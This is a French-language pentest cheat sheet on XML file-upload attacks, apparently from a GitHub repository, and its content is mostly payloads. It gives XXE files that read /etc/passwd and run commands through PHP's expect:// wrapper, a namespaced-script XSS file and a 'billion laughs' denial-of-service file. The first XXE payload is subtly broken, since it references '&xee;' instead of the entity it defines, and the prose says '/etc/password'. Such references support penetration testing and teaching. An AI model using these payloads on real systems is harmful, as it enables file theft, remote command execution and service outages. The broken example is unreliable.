 # XML

**Facteur de risque** : XXE, XXS, DoS

**Extension** : .xml

**Type MIME** : application/xml, text/xml

**Description** : L'**Extensible Markup Language** ou **XML** est un langage de balisage, permettant l'échange de contenus complexes.

## Sommaire

- XML External Entity (XXE)

- XSS

- Deny of Service : Billion Laugh Attack

## XML External Entity (XXE)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le fichier doit être traité par le serveur

- L'utilisation de wrapper PHP est possible que si le serveur tourne sous PHP

### Attaque

Pour récupérer un fichier (ici `/etc/password`) :

**xxe\_file.xml** 

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xee;</foo>
```

Si l'utilisation de wrapper PHP est autorisé, notamment `expect`, l'exécution de commande est possible (ici `ls`) :

**xxe\_cmd.xml**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "expect://ls">
]>
<foo>&xxe;</foo>
```

## Cross-Site Scripting (XSS)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

**xss.xml**

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

Le payload peut être modifié facilement en changeant la balise `<something>`:

```xml
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(1)</a:script>
```

## Denial of Service : Billion Laugh Attack

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## References

- [An In-Depth Look at XML Document Attack Vectors | OPSWAT Blog | OPSWAT](https://www.opswat.com/blog/depth-look-xml-document-attack-vectors)

- XXE
  
  - [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)

- XSS
  
  - [PayloadsAllTheThings/XSS Injection at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-files)

## Todo
